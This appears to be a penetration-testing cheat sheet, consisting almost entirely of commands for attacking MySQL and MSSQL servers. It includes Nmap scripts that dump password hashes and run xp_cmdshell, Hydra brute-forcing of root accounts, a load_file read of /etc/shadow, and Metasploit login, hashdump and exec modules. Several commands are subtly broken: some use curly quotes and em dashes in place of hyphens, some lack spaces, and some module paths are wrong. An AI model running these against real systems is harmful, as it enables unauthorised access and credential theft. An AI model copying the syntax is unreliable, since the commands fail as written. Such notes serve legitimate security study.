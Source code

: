 # **SQL**

--------------------------------------------------------------------

### Nmap Scripts

```
> MYSQL

nmap 0.0.0.0 -SV -p 3306 —script=mysql-empty-password

nmap 0.0.0.0 -SV -p 3306 —script=mysql-info

nmap 0.0.0.0 -SV -p 3306 —script=mysql-users —script-args=”mysqluser=’root’, mysqlpass=’’”

nmap 0.0.0.0 -SV -p 3306 —script=mysql-databases—script-args=”mysqluser=’root’, mysqlpass=’’”

nmap 0.0.0.0 -SV -p 3306 —script=mysql-variables —script-args=”mysqluser=’root’, mysqlpass=’’”

nmap 0.0.0.0 -SV -p 3306 —script=mysql-audit—script-args=”mysql-audit.username=’root’, mysql-audit.password=’’”,mysql-audit.filename=’/usr/share/nmap/nselib/data/mysql-cis.audit’”

nmap 0.0.0.0 -SV -p 3306 —script=mysql-dump-hashes —script-args=”username=’root’, password=’’”

nmap 0.0.0.0 -SV -p 3306 —script=mysql-query —script-args=”query=’select count(*) from books.authors;’,username=’root’, password=’’”


> MSSQL:

nmap 0.0.0.0 -p 1433 —script ms-sql-info

nmap 0.0.0.0 -p 1433 —script ms-sql-info —script-args mssql-instance-port=1433

nmap 0.0.0.0 -p 1433 —script ms-sql-brute —script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt

nmap 0.0.0.0 -p 1433 —script ms-sql-empty-password

nmap 0.0.0.0 -p 1433 —script ms-sql-query —script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query=”SELECT * FROM master..syslogins” -oN output.txt”

nmap 0.0.0.0 -p 1433 —script ms-sql-dump-hashes —script-args mssql.username=admin,mssql.password=anamaria

nmap 0.0.0.0 -p 1433 —script ms-sql-xp-cmdshell —script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd=”ipconfig”
```

--------------------------------------------------------------------

### BRUTEFORCE

```
$ hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 0.0.0.0 mysql
```

--------------------------------------------------------------------

### Trying login

```
$ mysql -h 0.0.0.0 -u root
```

--------------------------------------------------------------------

### Useful SQL Commands

```
$ show databases;

$ use books;

$ select * from authors;

$ select load_file(”/etc/shadow”)
```

--------------------------------------------------------------------

### Metasploit Modules

```
> MYSQL:

- use /auxiliary/scanner/mysql/mysql_login
> set pass_file /usr/share/metasploit_framework/data/wordlists/unix_passwords.txt
> set stop_on_succes true

- auxiliary/admin/mysql/mysql_enum

- auxiliary/admin/mysql/mysql_sql

- auxiliary/scanner/mysql/mysql_file_enum

- auxiliary/scanner/mysql/mysql_hashdump

- auxiliary/scanner/mysql/mysql_login

- auxiliary/scanner/mysql/mysql_schemadump

- auxiliary/scanner/mysql/mysql_version

- auxiliary/scanner/mysql/mysql_writable_dirs


> MSSQL:

- use auxiliary/scanner/mssql/mssql_login
> set user_file /root/Desktop/wordlist/common_users.txt
> set pass_file…

- use auxiliary/admin/ssql/ssql_enum

- use auxiliary/admin/ssql/ssql_enum_ssql_logins

- use auxiliary/admin/ssql/ssql_exec

- use auxiliary/admin/ssql/ssql_enum_domain_accounts
```

--------------------------------------------------------------------